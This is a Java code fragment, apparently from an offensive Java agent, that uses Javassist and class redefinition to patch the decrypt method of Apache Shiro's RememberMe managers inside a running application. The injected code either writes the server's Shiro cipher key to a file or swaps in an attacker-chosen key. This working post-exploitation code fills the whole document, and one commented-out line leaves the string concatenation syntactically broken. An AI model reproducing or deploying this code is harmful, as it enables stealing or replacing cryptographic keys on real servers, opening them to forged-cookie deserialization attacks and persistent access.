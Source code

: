 ```

        Class cls = null;
        try {
            cls = Class.forName("org.apache.shiro.mgt.AbstractRememberMeManager");
            for(int i = 0; i < classes.length; i++) {
                Class clazz = classes[i];
                try {
                    // 判断类clazz是否是org.apache.shiro.mgt.AbstractRememberMeManager.class的子类、实现类
                    if(cls.isAssignableFrom(clazz)){
                        ClassPool classPool = new ClassPool(true);
                        classPool.insertClassPath(new ClassClassPath(clazz));
                        classPool.insertClassPath(new LoaderClassPath(clazz.getClassLoader()));
                        CtClass ctClass = classPool.get(clazz.getName());
                        CtMethod ctMethod = ctClass.getMethod("decrypt", "([B)[B");
                        ctMethod.insertBefore(String.format("java.lang.String temp = \"%s\";\n" +
                                "if(temp.endsWith(\"\\.txt\")){" +
                                "try {\n" +
                                "   " +
                                "   java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(new java.io.File(temp),true);\n" +
                                "   fileOutputStream.write(\"Shiro key: \".getBytes());\n" +
//                                "   java.lang.System.out.println(\"get shiro keying\");\n" +
//                                "   java.lang.System.out.println(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()));\n" +
                                "   fileOutputStream.write(org.apache.shiro.codec.Base64.encodeToString(getDecryptionCipherKey()).getBytes());\n" +
                                "   fileOutputStream.write(\"\\n\".getBytes());\n" +
                                "   fileOutputStream.flush();\n" +
                                "   fileOutputStream.close();\n}" +
                                "catch(java.lang.Throwable e){\n" +
//                                " e.printStackTrace();\n" +
                                "}\n}else{\n" +
                                "try{\n" +
                                "setCipherKey(org.apache.shiro.codec.Base64.decode(temp));\n" +
//                                "java.lang.System.out.println(\"set shiro key ing！\");\n}
                                "catch(java.lang.Throwable e){\n" +
//                                "e.printStackTrace();" +
                                "\n}\n}\n",arg2));
                        inst.redefineClasses(new ClassDefinition(clazz,ctClass.toBytecode()));
                        ctClass.detach();
                    }


                }catch (Throwable e){
                    e.printStackTrace();
                }
            }
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }

    }

```
